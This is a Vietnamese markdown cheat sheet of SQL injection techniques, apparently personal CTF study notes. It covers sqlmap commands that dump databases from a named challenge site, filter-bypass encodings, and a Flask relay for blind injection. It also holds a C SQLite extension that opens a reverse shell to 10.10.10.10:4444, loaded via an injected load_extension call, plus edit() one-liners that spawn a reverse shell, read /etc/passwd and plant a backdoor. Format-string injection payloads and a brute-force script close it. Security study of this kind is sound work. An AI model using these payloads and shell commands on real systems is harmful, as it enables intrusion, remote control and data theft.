


# SqlMap 
- Tạo request `r.txt`
```code
POST /login.php HTTP/1.1
Host: example.com
Cookie: PHPSESSID=abc123
Content-Type: application/x-www-form-urlencoded

username=test&password=test
```
- Chạy `sqlmap -r r.txt --batch`
- level=5 tests more inputs, like HTTP headers
- risk=3 tests more injection payloads
```code
sqlmap -r r.txt --level=5 --risk=3 --batch
sqlmap -u https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 --batch --dbs
sqlmap -u https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 --batch -D blog -T post --dump
sqlmap -u https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 --batch -D blog -T user --dump

```
## XSS through SQi 
- [Bài này cơ bản là inject giá trị để XSS dùng](https://jorianwoltjer.com/blog/p/ctf/intigriti-xss-challenge/intigriti-july-xss-challenge-0722#sqli-ception)
    - Hex format
    - Lồng SQLi
    - Bypass CSP by Angular JS 
=> Để XSS
## Filter Bypass => CN lười quá ...
Có 2 cách để bypass filter 
- [Sử dụng `0x6a307231616e` in MySQL](https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)Find_/_Replace(%7B'option':'Regex','string':'.*'%7D,'0x$%26',false,false,false,false)&input=ajByMWFu)
- [Sử dụng `char(106,48,114,49,97,110)` in SQlite](https://gchq.github.io/CyberChef/#recipe=To_Decimal('Comma',false)Find_/_Replace(%7B'option':'Regex','string':'.*'%7D,'char($%26)',false,false,true,true)&input=ajByMWFu)

## Blind SQLi thông qua webSocket 
- [Nếu SQL không hỗ trợ 1 vài input lạ có thể dùng 1 middle server để cook input](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)
- Hoặc có thể dùng python , chỉnh sửa payload sao cho đúng format của vul 
```py=
from flask import Flask, request
import requests

app = Flask(__name__)

def interact(payload):
    print(f"Payload: {payload}")
    # Example complex interaction
    requests.post("https://example.com/save", json={"input": payload})
    r = requests.get("https://example.com/get_result")
    return r.text

@app.route('/')
def index():
    payload = request.args.get('id')
    return interact(payload)

if __name__ == '__main__':
    app.run(debug=False)
```

- và sau đó chạy `sqlmap` với target là middle server vừa build `sqlmap -u 'http://localhost:5000/?id=1'`
- Note : dùng nhiều lần sẽ gây cache từ lần trước bởi mình đang exploit url local vậy nên hãy dùng tham số này ` --flush-session`

# SQLite 
## RCE through CLI
- `enable_load_extension()` có thể thực thi được cmd 
- `load_extension()` chỉ có thể gọi khi đã gọi hàm này `enable_load_extension()`
- Payload như sau :
```c=
#include <sqlite3ext.h>
SQLITE_EXTENSION_INIT1

#include <stdlib.h>
#include <unistd.h>

int sqlite3_extension_init(sqlite3 *db, char **pzErrMsg, const sqlite3_api_routines *pApi) {
  SQLITE_EXTENSION_INIT2(pApi);

  system("bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'");

  return SQLITE_OK;
}
```
- Biên dịch 
```code
$ gcc -s -g -fPIC -shared extension.c -o extension.so
```
- Sau đó upload `extension.so`lên server 
```code
'; SELECT load_extension('/path/to/extension.so'); --
```
- End PWN
## [Hoặc có thể dùng `edit`](https://www.sqlite.org/cli.html#the_edit_sql_function)
```code!
sqlite> select edit(1,'bash -c "bash -i >& /dev/tcp/10.10.10.10/4444 0>&1";');
sqlite> select edit(1,'cat /etc/passwd;');
sqlite> select edit(1,'echo "malicious" > /tmp/backdoor.sh;');
``` 

# Nâng cao 
## Format strings 
1. [Đầu tiên là inject placeholders](https://blog.lexfo.fr/magento-sqli.html) 
    - Sink ở hàm `prepareSqlCondition`  , giá trị input  khi này được thực hiện  nối vào câu query trước khi thực hiện quote giá trị 
```code
$query = $this->_prepareQuotedSqlCondition($query . $conditionKeyMap['to'], $to, $fieldName); [5]
```
- Dẫn đến inject ở đây 
```code
$db->prepareSqlCondition('price', [
    'from' => '100'
    'to' => '1000'
]);
$query = "price >= '100' AND price <= '1000'";
 ||
\  /
 \/
$db->prepareSqlCondition('price', [
    'from' => 'x?'
    'to' => ' OR 1=1 -- -'
]);
-> $query = "price >= 'x' OR 1=1 -- -'' AND price <= ' OR 1=1 -- -'"
```

- `?` được nối vào query và được coi như là 1 placeholders => Việc gán giá trị là sai (có sự xuất hiện hai lần của `' OR 1=1 -- -'`)

2. Khi kết hợp nối chuỗi và format string sai cách 
```code
$username = strtr($_POST['username'], ['"' => '\\"', '\\' => '\\\\']);
$res = mysql_fquery($mysqli,
    'SELECT * FROM users WHERE username = "' . $username . '" AND password = "%s"',
    [$password]
);
```
- Đoạn code trên đang có gắng không cho t escape khỏi `"`
    - `username: %1$c OR 1=1;-- -` 
    - `password: 34`
- Câu lệnh sẽ thành 
```code
$res = mysql_fquery($mysqli,
    'SELECT * FROM users WHERE username = "%1$c OR 1=1;-- -" AND password = "%s"',
    ["34"]
);
```
- `%1$c` sẽ lấy kí tự đầu của mảng , `c` chuyển `34` thành `"` 
- Câu lệnh lúc sau 
```code
SELECT * FROM users WHERE username = "" OR 1=1;-- -" AND password = "34"
```
3. Lấy được 1 vài username dị dạng 
- Context : 
    -  Khi user là ` notadmin` thì trả về `Username not found`
    -  Khi user là ` admin` thì trả về `Invalid password`
- Tìm những kí tự khác mà server cũng coi là `admin` => brute-force giá trị hex từ `00` -> `FF`
```code
#!/usr/bin/env python3
import requests

s = requests.session()
interesting = []

for c in range(256):
    r = s.post("http://172.31.0.3/",
               data={
                 "username": b"admin" + bytes([c]) + b"foobar",
                 "password": ""
               })
    if "Invalid password" in r.text:
        interesting.append(c)

print([hex(c) for c in interesting])
```

=> những kí tự chứa và trên `\x80` thì server coi như là `admin\x80foobar` -> `admin`
- [Sau đây sẽ là demo :](https://github.com/T-Of-Me/My_World/tree/main/Practical-CTF/Server-side/SQLi/Demo/SQL-string-truncation) 

4. 